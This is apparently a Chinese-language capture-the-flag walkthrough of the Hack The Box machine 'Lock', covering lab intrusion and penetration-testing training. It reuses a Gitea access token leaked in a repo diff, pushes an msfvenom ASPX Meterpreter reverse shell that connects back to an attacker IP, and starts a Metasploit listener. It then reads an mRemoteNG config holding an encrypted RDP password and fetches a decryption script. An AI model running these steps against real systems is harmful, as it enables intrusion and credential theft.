

## Lock

```
[★]$ nmap -sC -sV 10.129.234.64
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=04cd3721ed688f91; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=VDY9p6n1pQGQS70C-BmJ7gZt3GE6MTc2NDU3OTU4ODI1NjIzNTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 01 Dec 2025 08:59:48 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=9093c093174715d3; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=sthmsRVkwzb4U-GzAxQf6zS9zQU6MTc2NDU3OTU5MzYzMDQ2ODYwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 01 Dec 2025 08:59:53 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2025-12-01T09:01:09+00:00
|_ssl-date: 2025-12-01T09:01:49+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2025-11-30T08:56:44
|_Not valid after:  2026-06-01T08:56:44
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-12-01T09:01:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
#### 访问80没有什么，访问端口3000,点击Expore

#### 点击Explore，我们会看到一个名为dev-scripts的存储库，它属于ellen.freeman。的存储库是用Python编写的。
#### 在dev-scripts存储库中，我们看到一个名为repos.py的文件
#### 回顾rerepository .py文件的内容，我们注意到个人访问令牌是硬编码的直接放入脚本中。
```
//这个脚本的作用是通过 Gitea API 获取用户的仓库列表。
import requests //用于发送 HTTP 请求（GET/POST 等）
import sys //用于访问命令行参数和退出程序等功能
import os //用于访问环境变量等操作

def format_domain(domain): //用于标准化用户输入的域名
    if not domain.startswith(('http://', 'https://')): //检查 domain 是否以 http:// 或 https:// 开头
        domain = 'https://' + domain //如果没有，就自动在前面加上 https://（默认使用 HTTPS）
    return domain //返回处理后的完整域名

def get_repositories(token, domain): //来获取用户仓库列表
    headers = { ////使用个人访问令牌进行授权，HTTP 请求头里添加 Authorization: token <token>
        'Authorization': f'token {token}' 
    }   
    url = f'{domain}/api/v1/user/repos' //拼接 API URL，这是 Gitea 官方提供的获取当前用户仓库的接口
    response = requests.get(url, headers=headers) //发送 GET 请求到该 URL，并附带认证头

    if response.status_code == 200: //服务器返回 HTTP 200
        return response.json() //返回服务器响应的 JSON 数据（通常是仓库列表
    else: //如果状态码不是 200，抛出异常并显示状态码
        raise Exception(f'Failed to retrieve repositories: {response.status_code}')

def main():
    if len(sys.argv) < 2: //检查命令行参数是否足够（至少要输入一个域名）>1
        print("Usage: python script.py <gitea_domain>")
        sys.exit(1) //如果参数不足，打印用法提示并退出程序，返回码为 1（表示异常退出）

    gitea_domain = format_domain(sys.argv[1]) //获取命令行第一个参数（域名）并通过 format_domain() 函数处理，保证 URL 正确

    personal_access_token = os.getenv('GITEA_ACCESS_TOKEN') //从系统环境变量中读取 Gitea 的个人访问令牌
    if not personal_access_token: //如果没有设置这个环境变量，打印错误信息并退出程序
        print("Error: GITEA_ACCESS_TOKEN environment variable not set.")
        sys.exit(1)

    try: //尝试执行下面的代码，如果出错会跳到 except 块
        repos = get_repositories(personal_access_token, gitea_domain) //调用 get_repositories() 获取仓库列表
        print("Repositories:") //打印 “Repositories:” 表头
        for repo in repos: //遍历每个仓库对象
            print(f"- {repo['full_name']}") //打印每个仓库的全名（例如 username/reponame）
    except Exception as e: //捕获异常并打印错误信息
        print(f"Error: {e}")

if __name__ == "__main__": //判断保证 仅在直接运行脚本时 执行 main() 函数，而不是被导入为模块时执行
    main()
```
#### 更新后的脚本引入了使用环境变量GITEA ACCESS TOKEN来替换以前硬编码的个人访问令牌，提高了安全性，我们也继续在本地设置。
#### Update repos.py
```
import requests
import sys

# store this in env instead at some point //在某个时候将其存储在env中；以后建议改回用环境变量存储更安全
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f'
//直接在代码里写了令牌，不依赖环境变量
import os

def format_domain(domain):
    if not domain.startswith(('http://', 'https://')):
@ -28,8 +26,13 @@ def main():

    gitea_domain = format_domain(sys.argv[1])

    personal_access_token = os.getenv('GITEA_ACCESS_TOKEN')
    if not personal_access_token:
        print("Error: GITEA_ACCESS_TOKEN environment variable not set.")
        sys.exit(1)

    try:
        //这里出现了 重复调用
        repos = get_repositories(PERSONAL_ACCESS_TOKEN, gitea_domain)//第一次用硬编码的 PERSONAL_ACCESS_TOKEN
        repos = get_repositories(personal_access_token, gitea_domain)//第二次用环境变量的 personal_access_token
//最终 repos 会被第二行覆盖，所以如果环境变量存在，硬编码的令牌其实没生效
//令牌直接硬编码在脚本里，不安全，尤其如果把脚本上传到 GitHub 之类的平台
        print("Repositories:")
        for repo in repos:
            print(f"- {repo['full_name']}")

//@ -28,8 +26,13 @@ 是 hunk header（块头），用来描述变化位置：
//-28,8：表示旧文件（修改前）从第 28 行开始，有 8 行内容。
//+26,13：表示新文件（修改后）从第 26 行开始，有 13 行内容。
```
### 操作_Update repos.py

```
[★]$ python3 repo.py http://10.129.35.179:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```
```
[★]$ git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@10.129.35.179:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.56 MiB/s, done.
Resolving deltas: 100% (35/35), done.
[★]$ ls
repo.py  website
[★]$ cd website
[★]$ ls
assets  changelog.txt  index.html  readme.md
[★]$ cat readme.md
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```
#### CI/CD集成现在是活动的——对存储库的更改将自动部署到web服务器
#### 这表明对该存储库的任何更改都会自动更改托管的网站。如果我们查看这个目录下的index.html页面，我们找到了网站的HTML内容之前。这意味着如果我们能够提交到存储库，它将被自动推送到的网站。我们通过创建一个简单的HTML文件来进行测试。
```
[★]$ echo '<hl>test</hl>' > test.html
然后使用git add添加新文件，并配置用户详细信息。
[★]$ git add test.html
[★]$ git config --global user.name "ellen.freeman"
[★]$ git config --global user.email "ellen.freeman"
然后，我们提交阶段性的更改
[★]$ git commit -m "test"
[main 2e3bbdf] test
 1 file changed, 1 insertion(+)
 create mode 100644 test.html
最后，我们将提交推到远程存储库，这将触发自动部署。
[★]$ git push
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 264 bytes | 264.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.129.35.179:3000/ellen.freeman/website.git
   73cdcc1..2e3bbdf  main -> main
现在，当我们向服务器运行curl请求时，我们看到新文件正在被提供并呈现为预期。
[★]$ curl http://10.129.35.179/test.html
<hl>test</hl>
```
## Foothold 据点
#### 由于从Nmap扫描中识别出Microsoft IIS被用作web服务器，因此我们可以上传一个 .aspx webshell实现远程代码执行。我们可以使用msfvenom生成这个webshell。
```
## 生成一个 Windows x64 的 ASPX 反弹 Shell 页面，当它在 IIS 上被访问时，会主动连回10.10.14.190:4455

[★]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.190 LPORT=4455 -f aspx > rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3683 bytes


//真正的 Meterpreter shellcode 大小是 510 字节
//加上 ASPX 模板、.NET 包装后 最终生成的 rev.aspx 文件大小是 3683 字节
```
#### 然后，我们继续使用msfconsole启动一个侦听器，以便在webshell启动时捕获反向shell触发。
```
[★]$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.190; set LPORT 4455; run"
[*] Using configured payload generic/shell_reverse_tcp  ← 启动瞬间的默认值
PAYLOAD => windows/x64/meterpreter/reverse_tcp          ← 后面成功覆盖了
LHOST => 10.10.14.190
LPORT => 4455
[*] Started reverse TCP handler on 10.10.14.190:4455    ← 真正生效的监听
```
#### payload 就是 meterpreter
#### 然后再次使用git将文件推送到服务器。
```
[★]$ git config --global user.name "ellen.freeman"
[★]$ git config --global user.email "ellen.freeman"
[★]$ git add rev.aspx
[★]$ git commit -m "reverse shell"
[main f58bac7] reverse shell
 1 file changed, 47 insertions(+)
 create mode 100644 rev.aspx
[★]$ git push 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 687 bytes | 687.00 KiB/s, done.
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.129.35.179:3000/ellen.freeman/website.git
   1451575..f58bac7  main -> main

[★]$ curl http://10.129.35.179/rev.aspx
```
#### 在提交并推送rev.aspx文件后，它会自动部署到网站上，我们触发它使用curl请求。
```

```
#### 我们确认Meterpreter会话在用户ellen.freeman下运行。
```
(Meterpreter 1)(c:\windows\system32\inetsrv) > getuid
Server username: LOCK\ellen.freeman
```
#### 接下来，我们枚举系统上的用户帐户。
```
(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
Process 2244 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.3932]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>net user
net user

User accounts for \\LOCK

-------------------------------------------------------------------------------
Administrator            DefaultAccount           ellen.freeman            
gale.dekarios            Guest                    WDAGUtilityAccount       
The command completed successfully.


c:\windows\system32\inetsrv>
```
#### 这显示了另一个用户gale.dekarios。
#### 在ellen.freeman的文档目录中，我们发现了一个文件名为config.xml。
```
c:\Users\ellen.freeman\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8592-A9D9

 Directory of c:\Users\ellen.freeman\Documents

12/28/2023  05:59 AM    <DIR>          .
12/28/2023  11:36 AM    <DIR>          ..
12/28/2023  05:59 AM             3,341 config.xml
               1 File(s)          3,341 bytes
               2 Dir(s)   5,680,271,360 bytes free
```
```
c:\Users\ellen.freeman\Documents>type config.xml
type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389"
<SNIP>
</mrng:Connections>
```
#### 这是一个远程桌面管理应用程序mRemoteNG的配置文件。该文件包括为Gale保存RDP会话。Dekarios。虽然密码是加密的，但mRemoteNG使用已知的AES-GCM加密方案，如果受保护的主密钥可用，则密码可以解密。来解密密码时，我们使用公开可用的Python脚本。
https://raw.githubusercontent.com/gquere/mRemoteNG_password_decrypt/refs/heads/master/mremoteng_decrypt.py
```
[★]$ wget https://raw.githubusercontent.com/gquere/mRemoteNG_password_decrypt/refs/heads/master/mremoteng_decrypt.py
```
#### 把config.xml传送到本地
